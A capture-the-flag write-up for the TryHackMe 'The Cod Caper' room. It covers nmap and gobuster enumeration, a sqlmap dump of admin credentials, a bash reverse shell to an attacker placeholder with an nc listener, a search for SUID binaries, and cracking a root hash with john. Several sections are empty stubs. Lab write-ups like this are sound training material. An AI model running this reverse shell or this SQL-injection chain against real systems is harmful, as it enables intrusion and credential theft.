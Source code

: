 # 🐟 TryHackMe - The Cod Caper

## 🔎 Host Enumeration

The first step is to see what ports and services are running on the target machine.  

**Recommended Tool:** `nmap`  
**Useful Flags:** `-p -sC -A`  

To answer these questions, scan the machine with nmap and analyze the results.

```bash
nmap -A <IP> 
```
We can see two ports open:  
- 22 → ssh  
- 80 → http  

**Questions:**  
1. How many ports are open on the target machine? → `2`  
2. What is the http-title of the web server? → `Apache2 Ubuntu Default Page: It works`  
3. What version is the ssh service? → `OpenSSH 7.2p2 Ubuntu 4ubuntu2.8`  
4. What is the version of the web server? → `Apache/2.4.18`  

---

## 🌐 Web Enumeration

Since only SSH and Apache are running, let’s check the web server for possible vulnerabilities.  

**Recommended Tool:** `gobuster`  
**Useful Flags:** `-x --url --wordlist`  
**Wordlist:** `big.txt`  

If we open the IP in a browser, we see the default Apache2 Ubuntu page.  
Now let’s scan with gobuster to enumerate directories and files.

```bash
gobuster dir -u http://IP/ -w big.txt -x .php,.html,.txt
```
📌 We found an important file!  

**Question:**  
- What is the name of the important file on the server? → `administrator.php`  

---

## 💉 Web Exploitation

The admin page gives a login form. First check for low-hanging fruit like SQL Injection.  

**Recommended Tool:** `sqlmap`  
**Useful Flags:** `-u --forms --dump -a`  

On `IP/administrator.php`, we have an admin login form.  

```bash
sqlmap -u <url> --forms --dump
```
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

We found usernames and passwords!  

**Questions:**  
1. What is the admin username?  
2. What is the admin password?  
3. How many forms of SQLi is the form vulnerable to? → `3`  

---

## ⚡ Command Execution

With the credentials from sqlmap, we log in.  

We get another form.

Let’s try to get a reverse shell with **netcat**. First, prepare a PHP shell:  

```bash
bash -c 'exec bash -i &>/dev/tcp/<ip>/<port> <&1'
```

Run netcat on attacker machine:  

```bash
nc -lvnp <port>
```
If successful, we get access to the target:  

**Questions:**  
1. How many files are in the current directory? → `3`  
2. Do I still have an account? → `yes`  
3. What is my ssh password? → Path: `/var/hidden/pass`  

---

## 🔑 LinEnum

**Question:** What is the interesting path of the interesting SUID file?  `/opt/secret/root`
There is a user called pingu in `/home`
First connect via SSH  

```bash
ssh pingu@IP
```

To list all SUID binaries:  

```bash
find / -perm -u=s -type f 2>/dev/null
```


## 🛠 pwndbg

No answer needed.

---

## 🛠 Binary Exploitation (Manually)

No answer needed.

---

## 🛠 Binary Exploitation (Pwntools)

No answer needed.

---

## 🔓 Finishing the Job

Now that we have the password hashes, we can crack them to get the root password.  

Root hash:  

```
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.
```

Usage with john:  

```bash
john [format] [wordlist] hash.txt
```
Escalation complete: You own this box.
---

## ✅ Conclusion

We exploited **The Cod Caper** using:  
- Enumeration (`nmap`, `gobuster`)  
- SQL Injection (`sqlmap`)  
- Command Execution (reverse shell)  
- Privilege Escalation (SUID, password cracking)  

🚩 Room Completed 🎉
```
